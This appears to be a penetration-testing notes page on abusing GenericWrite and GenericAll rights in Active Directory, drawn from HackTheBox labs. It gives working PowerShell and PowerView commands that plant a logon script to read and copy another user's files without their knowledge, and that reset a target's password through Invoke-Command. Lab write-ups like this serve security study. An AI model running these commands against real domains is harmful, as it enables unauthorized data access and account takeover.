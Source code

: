 # GenericWrite/GenericAll/AllExtendedRights over Users

GenericAll allows an attacker to modify the object in question. In this example, we change the password of a Domain Administrator. GenericWrite allows the modification of certain things (More on this in Object from Hackthebox). Environment: Search from HacktheBox

You may need to authenticate to the Domain Controller as SMITH@OBJECT.LOCAL if you are not running a process as that user. To do this in conjunction with Set-DomainObject, first create a PSCredential object (these examples comes from the PowerView help documentation):&#x20;

We can basically make the user execute things without the user knowing.&#x20;

![](<../../../../.gitbook/assets/image (8).png>)

#### Invoking Powershell scripts.

**We can use this to view restricted files for the user we have **<mark style="color:red;">**GenericWrite**</mark>** on.**&#x20;

We start by creating a powershell script that we can use to view restrcited directories or other shit we would want the script to do.&#x20;



`echo "ls C:\Users\Maria\Desktop\ > \ProgramData\out" > test.ps1`

`echo 'copy C:\Users\Maria\Desktop\Engines.xls C:\ProgramData\Engines.xls' > test.ps1`

Set-DomainObject -Identity maria -SET @{scriptpath='C:\ProgramData\test.ps1'}

This is the script we created, we could also do a reverse tcp shell to execute but in the case that there is a firewall blocking outbound traffic, the best we can do is try to get creds from somewhere else

#### Invoke Command - Change the password of the user

We could set our credentials if we are runnning it as another user or else we can specify them how we usually do normally. <mark style="color:red;">`GenericAll`</mark>

#### Specifying Our Credentials

`$SecPassword = ConvertTo-SecureString '<our-users-password>' -AsPlainText -Force`

Then

`$Cred = New-Object System.Management.Automation.PSCredential('<domain.name>\<our current user>', $SecPassword)`

Then with these we can execute the following command.

```
Invoke-Command -c 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity <user-we-have-write-over -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password1234!' -force)} -Credential $cred
```
